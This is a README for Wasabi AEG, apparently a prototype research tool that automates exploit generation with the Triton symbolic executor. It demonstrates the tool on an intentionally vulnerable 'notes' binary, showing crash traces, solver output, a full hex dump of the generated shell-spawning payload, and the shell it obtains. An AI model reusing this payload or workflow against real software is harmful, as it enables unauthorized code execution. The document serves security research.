 Wasabi AEG
====

This is yet another implementation (demonstration) of [AEG (Automated Exploit Generation)](http://security.ece.cmu.edu/aeg/) using Symbolic Executor Triton.

This is a Prototype.


Requirements
-----
* [Triton](https://github.com/JonathanSalwan/Triton) and [Pin tracer](https://triton.quarkslab.com/documentation/doxygen/index.html#libpintool_install_sec)
    * **NOTE**: My Triton build number is 1380 (v 0.6). Triton's API is volatile. So you may need some paches for solver script in the future.
* [lief](https://lief.quarkslab.com/)
* Python2


Build
----
```
cd vuln-samples
make
cd -
```


Demo
-----
Demo binaries are located in `vuln-samples`.

### notes
We obtained crash input from afl and feed it into `notes`.
We found that crashes at address `0x7ffff7a8c231`.

```
gdb-peda$ r < result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32

[----------------------------------registers-----------------------------------]
... snipped ...
RBP: 0xadad9dadadadadad 
... snipped ...
[-------------------------------------code-------------------------------------]
... snipped ...
=> 0x7ffff7a8c231 <__GI__IO_getline_info+193>:  mov    BYTE PTR [rbp+0x0],al
... snipped ...
Stopped reason: SIGBUS
0x00007ffff7a8c231 in __GI__IO_getline_info () from /usr/lib/libc.so.6
```

We can generate exploit payload int the following manner.

```
K_atc% export CRASHED_AT=0x7ffff7a8c231

K_atc% time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes.py vuln-samples/notes < vuln-samples/result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32
... snipped ...
[TT] Solving Memory Access constriant...
[TT] Model for Memory Access: {64L: SymVar_64 = 0x60, 65L: SymVar_65 = 0x0, 66L: SymVar_66 = 0x0, 67L: SymVar_67 = 0x0, 68L: SymVar_68 = 0x0, 69L: SymVar_69 = 0x0, 95L: SymVar_95 = 0x10, 62L: SymVar_62 = 0xD8, 63L: SymVar_63 = 0x30}
~~~~~~~~
Found exploitable crash:  'n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\xf5\nu\x009:n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\xf5\xf5\xf5\xf5\xf5\xf5\n\xf8\x00n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xd80`\x00\x00\x00\x00\x00\xf5\xf5\xf5\xf5\n\xf5\nu\x001:\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\x10'
Crash inputs: 'n\xf8]it\xe9m\r2\ns\nu\n3\nnle\xffh\xff\xffo\x81!!.z\x81!! \xd5\ncnn! \xd5\ncnnf\xad\xad\xad\xadf\xad\xad\xad\xad\xad\xad\xad\xad"\xad\xad\xd80`\x00\x00\x00\x00\x00\xad\xad\rQ\ns\nu\n3\nnle\xff(\xff\xffo\x81!! \xd5\n\x10'
[TT] Reading remaining stdin...
    read stdin = ''nnnnn\x81\xe1nnnnn~nnon!\xff\x00s\nq''
[TT] crash input is saved as 'crash_inputs'
[TT] Go on to phase 2
~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton   <  106.72s user 5.79s system 99% cpu 1:53.21 total

K_atc% time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes-phase-2.py vuln-samples/notes < crash_inputs
... snipped ...
~~~~~~~~
[TT] Automated Exploit Generation Done. Saving payload as 'exploit-payload'
[TT] Model for Memory Access: {96L: SymVar_96 = 0x12, 97L: SymVar_97 = 0x40, 98L: SymVar_98 = 0x0, 99L: SymVar_99 = 0x0, 100L: SymVar_100 = 0x0, 101L: SymVar_101 = 0x0, 102L: SymVar_102 = 0x0, 95L: SymVar_95 = 0x10}
Crash Inputs: 'n\xf8]it\xe9m\r2\ns\nu\n3\nnle\xffh\xff\xffo\x81!!.z\x81!! \xd5\ncnn! \xd5\ncnnf\xad\xad\xad\xadf\xad\xad\xad\xad\xad\xad\xad\xad"\xad\xad\xd80`\x00\x00\x00\x00\x00\xad\xad\rQ\ns\nu\n3\nnle\xff(\xff\xffo\x81!! \xd5\n\x10\x12@\x00\x00\x00\x00\x00nnnnn~nnon!\xff\x00s\nq'
To test payload: `(cat exploit-payload -) | ./vuln-samples/notes`
[TT] End
~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton   <  69.77s user 6.09s system 99% cpu 1:16.34 total
```

Finally, we got payload (to spawn shell) work fine!

```
K_atc% xxd exploit-payload 
00000000: 6ef8 5d69 74e9 6d0d 320a 730a 750a 330a  n.]it.m.2.s.u.3.
00000010: 6e6c 65ff 68ff ff6f 8121 212e 7a81 2121  nle.h..o.!!.z.!!
00000020: 20d5 0a63 6e6e 2120 d50a 636e 6e66 adad   ..cnn! ..cnnf..
00000030: adad 66ad adad adad adad ad22 adad d830  ..f........"...0
00000040: 6000 0000 0000 adad 0d51 0a73 0a75 0a33  `........Q.s.u.3
00000050: 0a6e 6c65 ff28 ffff 6f81 2121 20d5 0a10  .nle.(..o.!! ...
00000060: 1240 0000 0000 006e 6e6e 6e6e 7e6e 6e6f  .@.....nnnnn~nno
00000070: 6e21 ff00 730a 71                        n!..s.q

K_atc% (cat exploit-payload -) | ./vuln-samples/notes
Exploit Me!!

---- [menu] ----

==== [note #3] ====
title: content: Congratz![Enter]
uname -a
Linux K_atc 4.17.2-1-ARCH #1 SMP PREEMPT Sat Jun 16 11:08:59 UTC 2018 x86_64 GNU/Linux
whoami
katc
```